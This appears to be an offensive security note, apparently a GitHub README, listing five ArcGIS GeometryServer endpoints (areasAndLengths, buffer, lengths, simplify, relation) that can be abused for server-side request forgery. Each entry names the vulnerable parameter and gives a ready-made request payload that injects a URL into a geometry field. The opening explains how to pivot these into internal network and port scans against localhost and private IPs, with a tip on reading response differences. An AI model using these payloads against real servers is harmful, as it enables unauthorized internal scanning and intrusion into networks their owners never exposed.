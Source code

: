 Note: The paths may slightl vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

Quick tip for getting a partial SSRF: First attempt a port that is very likely to be closed such as 55555/tcp and then another one that is likely to be open 111/tcp(for linux) 445/tcp(for windows). After this observe differences in their responses to find a pattern.

## 1.
Endpoint: `/Utilities/Geometry/GeometryServer/areasAndLengths`

Parameter: `polygons`

Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`

Parameter: `geometries`

Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`

Parameter: `polylines`

Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/

## 4.

Endpoint: `Utilities/Geometry/GeometryServer/simplify`

Parameter: `geometries`

Sample payload: `sr=4326&geometries={"url":"http://example.com"}`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/simplify/

## 5. 

Endpoint: `Utilities/Geometry/GeometryServer/relation`

Parameter: `geometries1` and `geometries2`

Sample Payload: `sr=4326&geometries1={"url":"http://example.com"}&geometries2={"url":"http://example.com"}&relation=esriGeometryRelationWithin`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/relation/
